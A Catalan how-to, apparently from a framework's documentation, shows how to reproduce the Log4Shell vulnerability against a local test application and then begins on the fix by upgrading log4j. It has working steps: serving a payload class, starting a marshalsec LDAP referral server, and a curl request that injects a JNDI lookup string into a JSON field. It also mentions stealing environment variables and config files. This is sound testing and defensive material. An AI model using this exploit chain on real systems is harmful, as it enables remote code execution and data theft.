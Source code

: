 Pasos a seguir:

* Iniciar un servidor web que contingui el codi maliciós a injectar. Es pot utilitzar el projecte `https://github.com/cybereason/Logout4Shell.git`
i modificar la classe `Log4jRCE.java` per a afegir qualsevol codi maliciós que es vulgui injectar al servidor. Per exemple, es pot injectar una traça:

```java
String dateNow = ZonedDateTime.now(ZoneId.of("Europe/Madrid")).format(DateTimeFormatter.ofPattern("yyyy-MM-dd'T'HH:mm:ss.SSSZ"));
System.out.println("Log4JShell - JPJE ----------------------------: " + dateNow);
```

```sh
git clone https://github.com/cybereason/Logout4Shell.git
mvn clean package
cd target/classes
python3 -m http.server 8888
```

* Iniciar un servidor LDAP. Es pot utilitzar el projecte `https://github.com/mbechler/marshalsec.git`:

```sh
git clone https://github.com/mbechler/marshalsec.git
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```

* Generar una petició HTTP Request per a crear un `equipament` i en el nom enviar `${jndi:ldap://127.0.0.1:1389/a}`:

```sh
curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
--header 'Content-Type: application/json' \
--data-raw '{ "nom": "${jndi:ldap://127.0.0.1:1389/a}","municipi": "Barcelona"}'
```

* Revisar en el log de l'aplicació `CanigoLog4jShellTest` els efectes d'explotar la vulnerabilitat.

    > Amb la vulnerabilitat:

![LDAP exploit](/images/howtos/log4jshell/log4jshell_trace1.gif)

    > Sense la vulnerabilitat:

![LDAP no exploit](/images/howtos/log4jshell/log4jshell_trace2.gif)

On es pot apreciar en el log de `CanigoLog4jShellTest` la traça generada pel codi injectat.
D'aquesta manera, per exemple, es podria obtenir les variables d'entorn, arxius de configuració i altres per a enviar-los per correu.

## Com solucionar la vulnerabilitat a les aplicacions

* **Opció 1**) Substituir la versió de la dependència de la libreria `log4j` en temps de compilació.
